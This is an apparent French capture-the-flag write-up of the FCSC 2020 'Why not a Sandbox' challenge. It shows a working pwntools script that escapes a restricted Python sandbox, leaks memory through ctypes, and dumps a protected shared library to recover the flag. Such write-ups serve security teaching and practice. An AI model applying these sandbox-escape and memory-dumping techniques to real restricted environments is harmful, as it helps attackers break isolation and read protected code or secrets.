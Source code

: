 ```yaml
---
title: "Why not a Sandbox"
subtitle: "Challenge de Crypto du FCSC 2020"
published: true
author: "Bdenneu"
ctf: "FCSC"
annee: "2020"
---
```


# L'énoncé

Votre but est d'appeler la fonction print_flag pour afficher le flag.

Service : nc challenges1.france-cybersecurity-challenge.fr 2001

# Etat des lieux

En arrivant sur la machine, on voit que certains imports de librairies sont bloqués. On a cependant accès à sys. On peut alors se demander quels sont les modules déjà chargés :

![](/assets/images/FCSC2020/Sandbox/1.png)

J’ai trouvé un moyen de recharger les librairies par défaut. En fouillant dans le garbage collector, on ne trouve pas d’allusion à print_flag, donc la fonction ne se cache pas dans le python. Vu que os est rechargé, on a un shell sur la machine. Aussi, on pouvait avoir os via ctypes (ctypes._os).

![](/assets/images/FCSC2020/Sandbox/2.png)

![](/assets/images/FCSC2020/Sandbox/3.png)

![](/assets/images/FCSC2020/Sandbox/10.png)

Nous sommes donc dans spython et il le flag est surement dans lib_flag.so. Cependant, nous n’avons pas les droits pour le lire. Malgré la permission s sur spython, il ne permettra pas de devenir ctf-init vu qu’un setuid / setreuid sont effectués au lancement.

![](/assets/images/FCSC2020/Sandbox/4.png)

Aussi, en créeant une chaine de bytes, j’ai vu qu’elle était placée un peu avant les libs importées. Du fait qu’on puisse lire les chaines de caractères en mémoire, j’ai bruteforce l’offset autour de la chaine qu’on a récupéré pour récupérer la lib flag en mémoire.

![](/assets/images/FCSC2020/Sandbox/5.png)

```python
from pwn import *
import re

r = remote('challenges1.france-cybersecurity-challenge.fr',4005)
print(r.recvuntil('>>>'))

#leak memory
r.sendline('import ctypes')
print(r.recvuntil('>>>'))
r.sendline('x=b"print_flag"')
print(r.recvuntil('>>>'))
r.sendline('c_s = ctypes.c_char_p(x)')
print(r.recvuntil('>>>'))
r.sendline('c_s')
data = r.recvuntil('>>>')
print(data)
leaked = (int(re.findall(b'c_char_p\(([0-9]*)\)\r\n',data)[0])>>12)<<12
print("leaked libc=0x%08x"%leaked)

offset = 0x690000
jump = 0x10000
data = b""

while not(b"ELF" in data):
    print("Currently at: 0x%0x"%(leaked+offset))
    r.sendline('print(ctypes._string_at('+str(leaked+offset)+','+str(jump)+'))')
    data = r.recvuntil('>>>')
    if b'ELF' in data:
        break
    offset += jump

r.sendline('x=ctypes._string_at('+str(leaked+offset)+',0x100000)')
data = r.recvuntil('>>>')

#reload modules
r.sendline('import sys')
print(r.recvuntil('>>>'))
r.sendline('sys.meta_path[2].find_distributions()')
print(r.recvuntil('>>>'))
r.sendline('import binascii')
print(r.recvuntil('>>>'))

print("binascii: ")
print("===========================================")
r.sendline('binascii.hexlify(x)')
data = r.recvuntil('>>>')
with open('lib_flag.so','wb') as f:
    f.write(data)

```

On récupere ainsi lib_flag.so:

![](/assets/images/FCSC2020/Sandbox/7.png)

On peut ainsi y voir la superbe fonction print_flag :

![](/assets/images/FCSC2020/Sandbox/8.png)

À partir de la, soit on lit l’assembleur (il ne s’agit que d’un xor et une boucle après tout), soit on récupère les instructions et on les exécute dans notre debugger :

# Flag

![](/assets/images/FCSC2020/Sandbox/9.png)


